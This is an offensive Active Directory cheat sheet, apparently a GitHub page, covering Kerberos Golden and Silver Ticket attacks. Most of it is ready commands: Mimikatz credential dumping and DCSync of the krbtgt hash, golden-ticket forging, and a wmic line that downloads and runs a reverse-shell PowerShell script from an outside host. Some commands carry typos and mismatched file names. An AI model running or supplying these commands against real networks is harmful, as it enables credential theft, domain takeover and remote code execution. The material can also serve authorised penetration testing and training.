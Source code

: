 ## Persistence
### Golden Ticket 
It is a persistence and elevation of privilege technique where tickets are forged to take control of the Active Directory Key Distribution Service (KRBTGT) account and issue TGT's.  

* Get krbtgt NTHash  
* lsa  
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
or  
* DCSync Attack that allows an adversary to simulate the behavior of a domain controller (DC) and retrieve password data via domain replication.   
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt'"
```

* get SID
```
Get-Domainsid (PowerView)
```

* Exploitation  
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /doimain:<domain> /sid:<domain_sid> /krbtgt:<nthash> /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```  
or  
```
load kiwi
golden_ticket_create -k krbtgt_nthash -d <domain> -i <id> -s <domain_sid> -u Administrator -t /tmp/golden.tck
kerberos_ticket_use /tmp/gold.tck
kerberos_ticket_list 
wmic /node:dc computersystem get name,username,domain
```

```
wmic /node:dc process call create "powershell -nop -exec bypass iex(new-object net.webclient).downloadstring('http://<ip>/rev.ps1')"
```

### Silver Ticket 
It is a persistence and elevation of privilege technique in which a TGS is forged to gain access to a service in an application.  
* Get Domain SID  
```
GetDomainsid (PowerView)
```

* Get Machine Account Hash - RID 1000  
```
Invoke-Mimikatz '"lsadump::lsa /patch"' -ComputerName <hostname_dc>
```

